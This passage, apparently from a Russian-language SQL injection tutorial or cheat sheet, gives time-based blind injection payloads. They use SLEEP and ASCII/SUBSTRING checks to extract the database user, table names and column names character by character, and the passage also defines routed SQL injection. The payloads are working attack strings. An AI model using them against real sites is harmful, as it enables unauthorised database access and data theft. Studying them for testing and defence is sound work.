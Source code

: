 **Метод:** Использует временные задержки для определения наличия инъекции

```sql
http://172.23.58.183/?id=1' and (CASE WHEN ASCII(SUBSTRING((SELECT user() LIMIT 0,1), 1, 1))>97 THEN SLEEP(3) END) -- - //спит 3 секунды, если первый символ имени пользователя имеет код больше 97 в ASCII
```

### Посимвольная слепая разведка на основе времени (1)

```bash
name=test' AND (SELECT 1 FROM (SELECT(IF(ASCII(substring((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1), 1, 1))=§§, SLEEP(3), 0))) AS injectalias) AND '1'='1
```

### Верификация результатов разведки

```bash
name=test' AND (SELECT 1 FROM (SELECT(IF((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1)='users', SLEEP(5), 0))) AS injectalias) AND '1'='1
```

### Посимвольная слепая разведка на основе времени (2)

```bash
name=test' AND (SELECT 1 FROM (SELECT(IF(ASCII(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'users' LIMIT 0, 1), 1, 1))=§§, SLEEP(3), 0))) AS injectalias) AND '1'='1
```

### Посимвольная слепая разведка на основе времени (3)

```sql
' and (case when ASCII(substring((SELECT database() limit 0,1), {}, {}))={} THEN sleep(3) END) -- -
```

### Routed SQL Injection

### Определение

Routed SQL Injection, или маршрутизируемая SQL-инъекция, представляет собой 
ситуацию, когда SQL-инъекция не дает немедленного результата, но 
указывает на место для другой инъекции, которая может привести к 
результату. Иными словами, это инъекция внутри инъекции, актуальная в случае, когда существует вложенный запрос.

### Пример

Предположим, на сайте есть уязвимость по адресу:
`http://example.com/index.php?id=1`
Для обнаружения колонки, которая может быть уязвимой, последовательно подставляем строки вида: `"n'"`где `n` — номер колонки. В результате должно появиться сообщение об ошибке синтаксиса, указывающее на уязвимость в определенной колонке.
